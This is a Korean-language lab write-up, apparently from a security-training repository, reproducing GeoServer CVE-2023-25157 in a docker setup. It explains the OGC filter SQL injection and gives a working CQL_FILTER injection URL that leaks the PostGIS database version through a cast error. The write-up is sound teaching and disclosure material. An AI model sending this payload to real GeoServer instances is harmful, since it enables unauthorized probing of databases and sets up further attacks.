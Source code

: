# Geoserver/CVE-2023-25157
---
##### Contributor
- 최석규

#### 요약
- GeoServer는 자바로 만들어진 서버이며, 지리 정보를 편집 및 공유할 수 있는 서비스를 제공한다.
- 2.22.1과 2.21.4 이전 버전에서 SQL injection이 있다.
- OGC (Open Geospatial Consortium) 표준에 의해 정의된 필터 및 함수식에서 발견 되었다.
- URL 파라미터에 postgis를 포함하는 workspace의 이름과 타입을 삽입 시 데이터베이스 버전 정보가 노출되는 취약점이다.

참고 자료
- https://github.com/murataydemir/CVE-2023-25157-and-CVE-2023-25158
- https://github.com/advisories/GHSA-7g5f-wrx8-5ccf


#### 환경구성
- ```docker-compose up -d```
- ```http://your-ip:8080/geoserver```로 geosever 확인
- workspace name : vulhub
- Data store name : pg
- Feature type name : example
- One of attribute from feature type: name
- 위와 같은 구성 확인


#### SQL 구문 삽입
- ```http://your-ip:8080/geoserver/ows?service=wfs&version=1.0.0&request=GetFeature&typeName=vulhub:example&CQL_FILTER=strStartsWith%28name%2C%27x%27%27%29+%3D+true+and+1%3D%28SELECT+CAST+%28%28SELECT+version()%29+AS+integer%29%29+--+%27%29+%3D+true```

#### 결과

![image](https://github.com/ANG-web/whitehat-school-vulhub/assets/70057651/d292375b-c2a2-4a89-92ae-261bf0ffa346)



#### 정리
- geoserver에서 postgis 데이터베이스를 사용하는 작업공간에 이름과 타입을 매개변수로 넘길 경우 데이터베이스의 버전 정보가 노출된다.
- 이 취약점은 데이터베이스 정보를 활용해 추가적인 2차 공격이 일어날 수 있기 때문에 빠른 패치가 필요하다.
